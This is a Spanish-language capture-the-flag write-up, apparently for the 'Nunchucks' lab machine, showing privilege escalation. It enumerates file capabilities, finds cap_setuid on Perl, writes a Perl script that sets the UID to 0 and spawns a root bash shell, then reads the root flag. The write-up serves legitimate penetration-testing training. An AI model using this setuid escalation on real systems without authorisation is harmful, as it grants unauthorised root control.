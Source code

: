 ```bash
david@nunchucks:~$ cat /home/david/ user.txt
_______________________________________________________________________
9ee68f3e51ab88******************
```
---
Listamos los binarios con capacidades especiales que podrían permitirnos escalar privilegios.

```bash
getcap -r / 2>/dev/null
_______________________________________________________________________
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
---
La capacidad `cap_setuid+ep` en el binario `/usr/bin/perl` nos permite cambiar el UID del proceso, lo que significa que podríamos ejecutar comandos como si fuéramos el usuario `root`.

```bash
david@nunchucks:~$ ls -la /usr/bin/perl
_______________________________________________________________________
-rwxr-xr-x 1 root root 3478464 Oct 19  2020 /usr/bin/perl
```
---
Listando los permisos confirmamos que el binario `/usr/bin/perl` es propiedad de `root`. Creamos un script en `perl` que cambie el UID a 0 (root) y nos proporcione una shell con privilegios de root.

```bash
echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > run.pl
```
---
Le damos permisos de ejecución al script. Luego, ejecutamos el script para obtener una shell como `root`.

```bash
david@nunchucks:~$ chmod +x run.pl
david@nunchucks:~$ ./run.pl
_______________________________________________________________________
root@nunchucks:~#
```
---
Finalmente, leemos la flag de `root` que se encuentra en el directorio `/root`.

```bash
root@nunchucks:~# cat /root/root.txt
_______________________________________________________________________
4cb470eb91ed1c******************
```
